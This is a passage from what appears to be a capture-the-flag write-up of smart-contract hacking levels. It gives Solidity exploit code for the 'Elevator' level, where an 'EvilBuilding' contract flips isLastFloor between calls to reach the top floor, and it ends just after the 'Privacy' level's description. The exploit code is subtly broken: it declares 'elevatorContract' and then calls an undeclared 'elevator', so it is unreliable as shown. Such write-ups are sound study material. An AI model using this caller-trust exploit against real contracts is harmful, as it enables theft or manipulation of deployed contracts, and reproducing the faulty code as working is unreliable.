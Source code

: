 Challenge solved ✅

## Elevator

`with trust, everyone can get to the last floor`

**Challenge description**

This elevator won't let you reach the top of your building. Right?

--------
**Analysis**

![Elevator method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138015/32f18465b7eeaabaeced84613e4e573847463c7b34aefd6d467fdd9d9f04d851_rpolcp.png)  
This function uses the method the msg.sender to know if the floor is accessible or not. The problem here is :

1. `Elevator` contract has no control over the logic of the `Building` contract.
2. The `goTo` function is actually `public` which makes it possible to have some state changes inside it.

And all we need is to make the isLastFloor function returns false at first so we get inside the if block and true to set top.

-----
**Exploitation**

```js
interface Elevator { 
 function goTo(uint _floor) external;
}

contract EvilBuilding { 
    uint count= 0; 
    function isLastFloor(uint) external returns (bool){ 
        count ++ ; 
        return count%2==0 ? true : false; // The first time will pass false the second true
    }

    function callAttack(address ElevatorAddress) public {
        Elevator elevatorContract = Elevator(ElevatorAddress);
        elevator.goTo(10); // put any number here really
    }
}
```

Challenge solved ✅

## Privacy

**Challenge description**

The creator of this contract was careful enough to protect the sensitive areas of its storage.
Unlock this contract to beat the level.
